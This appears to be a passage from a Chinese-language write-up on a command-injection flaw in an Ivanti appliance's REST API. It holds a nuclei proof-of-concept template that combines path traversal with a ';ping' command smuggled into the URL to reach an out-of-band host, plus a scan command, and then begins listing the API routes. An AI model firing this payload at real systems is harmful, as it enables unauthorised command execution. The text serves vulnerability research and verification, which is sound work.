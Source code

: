 # 0x03 漏洞验证和利用

这里使用nuclei进行验证，使用的模板如下：

```plain
id: poc
info:
  name: 直接发包命令注入
  author: xxx
  severity: high
  description: 直接发包命令注入，影响范围比较大
http:
- raw:
  - |
    GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
    Connection: close
    Accept-Encoding: gzip, deflate
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: interactsh_protocol
    words:
    - dns
    condition: or
```

```plain
nuclei.exe -t .\poc.yaml -p http://127.0.0.1:8088 -iserver a.com -itoken token11 -l .\targets.txt
```

# 0x04 漏洞分析

在Ivanti 的公告中提到，在修复之后 Admin REST APIs 将会减少，因而就从此入手分析

在`restservice/api/init.py` 文件当中，找到rest apis的路由：

```plain
...
api.add_resource(
    Userrecordsynchronization,
    "/api/v1/system/user-record-synchronization",
    "/api/v1/system/user-record-synchronization/database/export",
    "/api/v1/system/user-record-synchronization/database/import",
    "/api/v1/system/user-record-synchronization/database/delete",
    "/api/v1/system/user-record-synchronization/database/retrieve-stats",
)
api.add_resource(
    WebProfile, "/api/v1/system/resource-profiles/web-profile/<path:applet_name>"
)
api.add_resource(
    ActiveSyncDevices,
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/allow-access",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/block-access",
    "/api/v1/system/status/active-sync-devices",
)
api.add_resource(
    AwsAzureTestConnection,
```